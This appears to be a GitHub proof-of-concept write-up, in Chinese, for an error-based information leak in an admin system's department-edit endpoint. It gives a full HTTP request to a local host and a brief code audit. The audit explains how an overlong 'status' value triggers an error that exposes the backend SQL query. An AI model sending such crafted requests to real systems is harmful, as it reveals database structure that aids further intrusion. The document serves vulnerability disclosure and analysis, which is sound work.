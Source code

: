 # POC
# 漏洞验证
POST /system/dept/edit HTTP/1.1
Host: 127.0.0.1
Content-Length: 209
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/dept/edit/103
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=a484ff97-3a44-4dc2-bc54-e0332d37da5b
Connection: close

deptId=103&parentId=101&parentName=%E6%B7%B1%E5%9C%B3%E6%80%BB%E5%85%AC%E5%8F%B8&deptName=%E7%A0%94%E5%8F%91%E9%83%A8%E9%97%A8&orderNum=1&leader=%E8%8B%A5%E4%BE%9D&phone=15888888888&email=ry%40qq.com&status=1&
在 status 参数后边拼接任意字符, 会出现报错, 错误信息包含漏洞 SQL 语句
![image](https://github.com/Fr1ezy/POC/assets/54392222/0595d7dd-a2a0-4382-a7d7-5527abac72d1)

# 代码审计
status 参数后端定义为 String 类型, 但数据库定义为 char 类型
char 类型用于存储固定长度的字符串, 并且当存储的字符串长度小于定义的长度时, 会在字符串末尾填充空格, 所以只要修改 status 参数超过 char 默认长度, 造成报错, 从而泄露数据库查询所用 SQL 语句
![image](https://github.com/Fr1ezy/POC/assets/54392222/9a4d9797-817d-4d43-8e53-9d21759a9e0a)
![image](https://github.com/Fr1ezy/POC/assets/54392222/195c9717-b746-4b26-adab-94d8981d4a3d)

